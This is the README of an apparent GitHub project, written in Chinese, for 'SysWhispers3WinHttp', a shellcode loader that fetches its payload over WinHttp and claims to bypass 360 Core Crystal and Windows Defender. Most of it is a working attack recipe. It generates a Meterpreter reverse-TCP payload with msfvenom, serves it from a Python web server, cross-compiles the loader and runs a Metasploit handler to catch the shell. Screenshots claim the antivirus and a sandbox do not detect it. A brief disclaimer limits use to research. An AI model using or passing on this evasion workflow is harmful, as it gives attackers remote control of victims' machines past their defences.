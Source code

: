 # SysWhispers3WinHttp
SysWhispers3WinHttp 基于SysWhispers3项目增添WinHttp分离加载功能，可免杀绕过360核晶与Defender。

## 0x01 免责声明：

该项目仅供安全研究使用，禁止使用该项目进行违法操作，否则由使用者承担全部法律及连带责任。

## 0x02 使用：

```
// 1. 使用msfvenom生成shellcode（或使用CobaltStrike生成Stageless之Shellcode）
msfvenom -p windows/meterpreter_reverse_tcp lhost=192.168.1.104 lport=4444 -f raw -o beacon.bin

// 2. 使用python3开启Web服务（或使用CobaltStrike之HostFile功能）
python3 -m http.server

// 3. 修改SysWhispers3WinHttp.c第40行IP地址并使用Linux32位GCC进行交叉编译
i686-w64-mingw32-gcc -o SysWhispers3WinHttp.exe syscalls.c SysWhispers3WinHttp.c -masm=intel -fpermissive -w -s -lwinhttp
```

注：Windows下也可编译，GCC下载地址为 https://master.dl.sourceforge.net/project/mingw-w64/Toolchains%20targetting%20Win32/Personal%20Builds/mingw-builds/6.4.0/threads-win32/sjlj/i686-6.4.0-release-win32-sjlj-rt_v5-rev0.7z?viasf=1


## 0x03 演示：

```
msfconsole
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload windows/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 4444
msf6 exploit(multi/handler) > run
```

360核晶截图（2023/04/23更新）
![360](https://user-images.githubusercontent.com/128464183/233817661-76d09fef-7817-4e5a-a236-871c4a300471.PNG)

Defender截图
![WDdemo](https://user-images.githubusercontent.com/128464183/227820977-8ae3dd14-76f4-4076-85a4-91ff2702ec61.PNG)

微步云沙箱截图
![threatbook](https://user-images.githubusercontent.com/128464183/233817665-3ff36fed-ec4e-442f-b837-18247edff7ee.PNG)

## 0x04 参考：
https://github.com/klezVirus/SysWhispers3

https://learn.microsoft.com/zh-cn/windows/win32/api/winhttp/nf-winhttp-winhttpconnect
